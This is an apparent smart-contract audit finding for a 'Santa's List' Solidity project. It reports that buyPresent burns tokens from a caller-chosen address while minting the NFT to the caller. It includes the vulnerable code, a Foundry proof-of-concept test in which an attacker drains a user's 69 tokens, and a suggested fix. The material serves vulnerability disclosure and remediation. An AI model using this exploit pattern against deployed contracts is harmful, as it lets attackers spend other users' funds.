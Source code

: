 ## Summary

The `presentReceiver` input in `buyPresent(address presentReceiver)` function used as address to burn tokens from, which leads to unathorized burning. 


## Vulnerability Details

In the `buyPresent(address presentReceiver)`,  
`presentReceiver` is an input value for the `burn` function

```javascript
  function buyPresent(address presentReceiver) external {
 @>       i_santaToken.burn(presentReceiver);
        _mintAndIncrement();
    }
```

```javascript
 function burn(address from) external {
        if (msg.sender != i_santasList) {
            revert SantaToken__NotSantasList();
        }
@>        _burn(from, 1e18);
    }
```
At the same time minted NFT is going to the msg.sender

```javascript 
 function _mintAndIncrement() private {
@>        _safeMint(msg.sender, s_tokenCounter++);
    }
```

As a result, presentReceiver is effectively paying for the attackers NFTs

## Impact

Foundry tests will look like this:

```javascript
  function test_burnAllUserTokens() public {
    vm.startPrank(santa);
    santasList.checkList(user, SantasList.Status.EXTRA_NICE);
    santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
    vm.stopPrank();

    vm.startPrank(user);
    for (uint256 i; i < 69; i++) {
      santasList.collectPresent();
      santasList.transferFrom(user, userBag, i);
    }
    @> assertEq(santaToken.balanceOf(user), 69e18);

    //allowance is required
    santaToken.approve(address(santasList), type(uint256).max);

    vm.stopPrank();

    vm.startPrank(grinch);
    for (uint256 i; i < 69; i++) {
  @>    santasList.buyPresent(user);
    }
 @>   assertEq(santaToken.balanceOf(user), 0);
   assertEq(santasList.balanceOf(grinch), 69);
    vm.stopPrank();
  }
```

Full test on [GitHub repo fork](https://github.com/algobotishere/2023-11-Santas-List/blob/98a91daf2046b728b8e7021526e7e9733f76e15f/test/unit/SantaHacks.t.sol#L70)

## Tools Used

Foundry

## Recommendations

Use `msg.sender` inside the function body.

```diff
-   function buyPresent(address presentReceiver) external {
+   function buyPresent() external {
-       i_santaToken.burn(presentReceiver) ;
+       i_santaToken.burn(msg.sender) ;
        _mintAndIncrement();
    }
```


